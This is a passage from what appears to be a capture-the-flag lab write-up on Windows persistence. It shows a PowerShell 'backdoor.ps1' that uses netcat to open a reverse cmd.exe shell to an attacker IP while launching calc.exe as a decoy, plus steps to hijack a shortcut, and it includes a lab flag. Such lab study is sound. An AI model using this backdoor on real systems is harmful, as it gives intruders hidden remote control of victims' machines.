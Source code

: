 * Insert flag5 here

    `THM{NO_SHORTCUTS_IN_LIFE}`

    * Create file script `backdoor.ps1` and save to `C:\Windows\System32\`

        ```
        Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.9.251.6 5555"

        C:\Windows\System32\calc.exe
        ```

    * Modify the shortcut to point to our script

        ![task3-calc-backdoor](./images/task3-calc-backdoor.png)

    * Set listner on our machine

        ![task3-listener2](./images/task3-listener2.png)

    * Double-click the shortcut and get the flag

        ![task3-shell](./images/task3-shell.png)
